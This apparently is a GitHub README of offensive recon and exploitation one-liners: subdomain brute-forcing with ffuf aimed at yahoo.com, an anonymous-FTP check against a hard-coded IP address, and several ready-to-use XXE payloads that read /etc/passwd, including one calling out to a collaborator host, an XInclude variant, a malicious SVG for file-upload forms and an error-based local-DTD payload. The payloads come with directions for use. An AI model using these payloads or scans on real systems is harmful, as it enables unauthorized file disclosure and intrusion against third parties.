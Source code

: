 # Some Importent script for automation
writen by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Brutforce sobdomain via ffuf
```
subs="/home/aruu/Desktop/ath3na/sub.txt" ; act="https://FUZZ.yahoo.com" ; ffuf -w $subs -v -t 300 -timeout 15  -u "$act" -o lol | grep "URL" | tee -a result.txt ; rm lol

```
### Remove scheme from  list of urls
```
for url in $(cat lis_of_urls.txt);do
 echo "$url"|awk -F[/:] '{print $4}'
done

```
### collect all subdomains ip from target website
```
assetfinder --subs-only "testfire.net" |dig| grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'

```
### subdomain brutforce via host command
```
for sub in $(cat brutforce_payload.txt) 
do
if host $sub.target.com &>/dev/null 
then
echo "$sub.target.com"
fi
done

```
### Anonymous ftp login [cradit:JoyGhoshs]
```
curl -m 6 -s ftp://178.33.155.61 --user "Anonymous:Anonymous" | grep "r" &>/dev/null && echo -e "\033[31mAnonymous Login allowed" || echo " [+]  Not Allowe

```
### collect all urls from text file
```
cat target.txt| grep -Eo '(http|https|ftp|aaa|aaas|acap|acct|acr|xmpp|udp|s3|git|file|apt|admin|app)://[a-zA-Z0-9./?=_%:-]*

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### file upload
#### save this as  svg file and upload it. now check your uploaded picture with root:x content.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### brutforceing dtd
#### bruteforce "bruteforce-here" with your dtd list and grep  root:x | daemon:x
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://bruteforce-here">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
